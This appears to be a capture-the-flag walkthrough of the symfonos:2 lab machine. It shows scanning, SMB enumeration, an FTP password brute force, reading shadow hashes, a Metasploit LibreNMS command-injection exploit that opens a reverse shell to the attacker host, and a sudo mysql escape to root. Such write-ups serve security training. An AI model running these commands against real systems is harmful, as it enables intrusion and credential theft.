

Finding the box on the network:
crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Nmap scan report for 192.168.56.133
Host is up (0.00015s latency).
Not shown: 995 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Find specific details about running services (snipped):
crazyeights@es-base:~$ nmap -A -p- 192.168.56.133
Not shown: 65530 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp ProFTPD 1.3.5
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open http WebFS httpd 1.21
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
symfonos2Index Page:
Enumerating Server:
crazyeights@es-base:~$ dirb http://192.168.56.133
crazyeights@es-base:~$ smbclient -L \\symfonos2 -I 192.168.56.133 -N
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
anonymous Disk
IPC$ IPC IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
crazyeights@es-base:~$ smbclient \\\\symfonos2\\anonymous -I 192.168.56.133 -N
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Thu Jul 18 10:30:09 2019
.. D 0 Thu Jul 18 10:29:08 2019
backups D 0 Thu Jul 18 10:25:17 2019
19728000 blocks of size 1024. 16312448 blocks available
smb: \> cd backups
smb: \backups\> ls
. D 0 Thu Jul 18 10:25:17 2019
.. D 0 Thu Jul 18 10:30:09 2019
log.txt N 11394 Thu Jul 18 10:25:16 2019
19728000 blocks of size 1024. 16312448 blocks available
smb: \backups\> get log.txt
getting file \backups\log.txt of size 11394 as log.txt (741.8 KiloBytes/sec) (average 741.8 KiloBytes/sec)
smb: \backups\>
# Set the user and group under which the server will run.
User aeolus
Group aeolus
crazyeights@es-base:~$ hydra -l aeolus -P lists/rockyou.txt ftp://192.168.56.133
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.56.133:21/
[21][ftp] host: 192.168.56.133 login: aeolus password: sergioteamo
1 of 1 target successfully completed, 1 valid password found
crazyeights@es-base:~$
crazyeights@es-base:~$ ssh aeolus@192.168.56.133
aeolus@symfonos2:~$ ls
share
aeolus@symfonos2:~$
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
aeolus@symfonos2:/var$ cd backups/
aeolus@symfonos2:/var/backups$ cat shadow.bak
root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
[SNIP]
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
mysql:!:18095:0:99999:7:::
Debian-snmp:!:18095:0:99999:7:::
librenms:!:18095::::::
crazyeights@es-base:~$ john --wordlist=lists/rockyou.txt --rules sym2_pass
librenms:!:18095::::::
aeolus@symfonos2:~$ find / -name "*librenms*" 2>/dev/null
/var/lib/apache2/site/enabled_by_admin/librenms
/var/lib/mysql/librenms
/opt/librenms
/etc/logrotate.d/librenms
/etc/apache2/sites-available/librenms.conf
/etc/apache2/sites-enabled/librenms.conf
aeolus@symfonos2:~$ cat /etc/apache2/sites-available/librenms.conf
<VirtualHost 127.0.0.1:8080>
DocumentRoot /opt/librenms/html/
ServerName localhost
AllowEncodedSlashes NoDecode
<Directory "/opt/librenms/html/">
Require all granted
AllowOverride All
Options FollowSymLinks MultiViews
</Directory>
</VirtualHost>
crazyeights@es-base:~$ ssh -L 9999:localhost:8080 aeolus@192.168.56.133
crazyeights@es-base:~$ searchsploit librenms
---------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------- ---------------------------------
LibreNMS - addhost Command Injection (Metaspl | linux/remote/46970.rb
LibreNMS - Collectd Command Injection (Metasp | linux/remote/47375.rb
LibreNMS 1.46 - 'addhost' Remote Code Executi | php/webapps/47044.py
LibreNMS 1.46 - 'search' SQL Injection | multiple/webapps/48453.txt
---------------------------------------------- ---------------------------------
The commnand injection exploit requires credentials, but we can login with aeolus's credentials (same as SSH):
Trying the metasploit exploit addhost command injection:
msf5 exploit(linux/http/librenms_addhost_cmd_inject) > options
Module options (exploit/linux/http/librenms_addhost_cmd_inject):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD sergioteamo yes Password for LibreNMS
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 127.0.0.1 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 9999 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes Base LibreNMS path
USERNAME aeolus yes User name for LibreNMS
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.56.1 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Linux
msf5 exploit(linux/http/librenms_addhost_cmd_inject) > exploit
[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] Successfully logged into LibreNMS. Storing credentials...
[SNIP]
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:43528) at 2021-01-02 22:15:10 -0500
id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
Spawning an interactive shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
cronus@symfonos2:/opt/librenms/html$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User cronus may run the following commands on symfonos2:
(root) NOPASSWD: /usr/bin/mysql
sudo mysql -e '\! /bin/sh'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt
Congrats on rooting symfonos:2!
[SNIP]
FIN. 🥳